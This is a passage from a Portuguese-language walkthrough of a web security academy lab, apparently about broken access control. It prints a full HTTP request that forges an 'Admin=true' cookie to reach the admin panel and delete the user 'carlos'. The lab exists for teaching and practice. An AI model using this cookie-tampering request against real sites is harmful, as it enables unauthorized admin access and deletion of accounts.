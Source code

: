 ```http

```

Dessa forma, conseguimos acessar a página de administrador, mesmo não sendo um usuário com permissão.

![admin](parameter_admin_page.png)

E para concluir o laboratório, temos que excluir o usuário `carlos` da lista de usuários, porém o cookie `Admin` não está mais presente na requisição, então, iremos interceptar a requisição e adicionar o cookie novamente.

```http


GET /admin/delete?username=carlos HTTP/1.1
Host: 0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net
Cookie: session=a2Uxp4KQl19EN6t5Gq7YSRuMNIBjWip8; Admin=true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a8800e4030a2cf2c05059f500dd0038.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

E assim, conseguimos concluir o laboratório.

![concluido](parameter_concluido.png)

---